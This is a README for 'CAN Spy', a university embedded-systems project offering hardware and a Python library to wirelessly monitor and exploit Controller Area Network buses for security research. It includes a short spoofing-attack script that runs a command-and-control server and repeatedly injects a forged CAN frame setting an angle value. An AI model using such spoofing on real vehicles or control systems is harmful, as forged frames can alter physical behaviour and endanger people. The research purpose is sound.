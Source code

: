 # CAN Spy

A practical hardware device and software tool for wirelessly monitoring and exploiting Controller Area Network (CAN) systems. Strictly for educational and security research purposes. This project was developed as the course project for UCLA ECE 202A Embedded Systems taken Fall 2024 with professor Mani Srivastava.

For more information visit the [project site](https://roryhemmings.com/CAN-spy)

![Hardware Schematic](docs/media/hardware-schematic.png)
![MCU to CAN interface](docs/media/mcu-can-interface.png)
![MCU connections](docs/media/mcu-connections.png)
![Software Diagram](docs/media/software-diagram.png)
![Hardware Setup Photo](docs/media/hardware-setup/multimeter.jpg)

## Basic library use

For package setup details visit the [package readme](can-spy/README.md)

### Spoofing Example:
```py
#!/usr/bin/python3

import asyncio
import random

from can_spy.can_packet import CanPacket
from can_spy.c2_server import C2Server


async def handle_client(websocket):
    angle = random.randint(15, 60)
    angle = 30
    while True:
        print("Set angle to 30")
        packet = CanPacket(
            data=angle.to_bytes(1, byteorder='little', signed=True),  # Actual byte level payload
            timestamp=0, # Arbitrary in this case
            can_id=0x10,
            length=1
        )

        await websocket.send(packet.serialize())
        await asyncio.sleep(0.5)

def main():
    """Spoofing attack example script"""

    c2 = C2Server(client_handler=handle_client)
    c2.serve_forever()
        
if __name__ == "__main__":
    main()
```